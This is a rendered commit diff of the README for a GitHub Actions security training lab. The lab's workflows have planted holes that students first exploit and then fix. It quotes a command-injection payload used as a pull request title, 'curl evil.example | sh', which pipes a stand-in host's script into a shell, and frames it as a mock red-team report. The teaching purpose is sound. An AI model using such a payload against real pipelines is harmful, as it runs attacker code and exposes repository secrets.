

Before and after one commit to professordiogodev/devops-lab-actions-pipeline-security, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 91% size. Rendered like a GitHub page; pictures changed too: assets/gifs/situation.gif; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Lab: actions-pipeline-security

````diff
--- a/README.md
+++ b/README.md
@@ -22,13 +22,21 @@
 
 ## 🎬 The situation
 
-<p align="center"><img src="assets/gifs/situation.gif" width="300" alt="Animation: permissions - contents - read"></p>
+<p align="center"><img src="assets/gifs/situation.gif" width="300" alt="A hostile pull request title is pasted into a shell command and runs; passing it through an environment variable keeps it as text"></p>
+
+```text
+RED TEAM REPORT RT-2204 - Pollie CI/CD pipeline
+Result     : initial access achieved, no code review needed
+Method     : one pull request, one title
+Payload    : x"; curl evil.example | sh; echo "
+Impact     : arbitrary commands on the runner, with access to the repository secrets
+Evidence   : a polite report and a screenshot of the secrets they could have read
+Severity   : critical          Time to exploit: 4 minutes
+```
 
 A CI/CD pipeline is the most privileged thing a software team owns. It can read the source, it holds the registry token and the deploy key, it can publish a release that thousands of machines will install. And it runs **code that other people wrote**: every pull request, every dependency, every third-party action. If you can make a pipeline run your commands, you do not need to hack the server.
 
-Last week a security researcher opened a pull request against Pollie. The title was `x"; curl evil.example | sh; echo "`. No code review was needed: the pipeline pasted the title into a shell script, and the runner executed the rest. They sent a polite report and a screenshot of the secrets they could have read.
-
-You have three workflows from the Pollie repository (`ci.yml`, `preview.yml`, `release.yml`), each with real, common holes. You will watch an injection happen on your own machine, then close every hole **without breaking the pipeline**, because a pipeline that is secure and does not work is not a fix.
+The report is yours to answer. You have three workflows from the Pollie repository (`ci.yml`, `preview.yml`, `release.yml`), each with real, common holes. In **Act 1** you play the attacker and watch an injection happen on your own machine. In **Act 2** you defend: you close every hole **without breaking the pipeline**, because a pipeline that is secure and does not work is not a fix.
 
 > [!IMPORTANT]
 > **Your mission**
@@ -41,7 +49,7 @@ You have three workflows from the Pollie repository (`ci.yml`, `preview.yml`, `r
 
 <p align="center"><img src="assets/divider.svg" alt="" width="100%"></p>
 
-## Part 0 - Read the three workflows
+## Part 0 - Act 1: read the three workflows (the attacker's map)
 
 Fork this repository and clone your fork. Read `.github/workflows/ci.yml`, `preview.yml` and `release.yml`, and try to spot problems before reading further. The workflows are not run by the lab (nothing is deployed); the checker reads the YAML.
 
@@ -86,7 +94,7 @@ Fix it: switch to `pull_request`, remove the secret, keep the workflow useful (i
 
 <p align="center"><img src="assets/divider.svg" alt="" width="100%"></p>
 
-## Part 3 - Least privilege
+## Part 3 - Act 2: least privilege (the defence starts here)
 
 Every job gets a `GITHUB_TOKEN`. Its default permissions depend on a repository setting and are often read **and write**. State what you need:
 
````
Also changed, not shown: other parts of README.md (+3 -3 lines), LAB.md (+13 -5 lines), 2 other files.
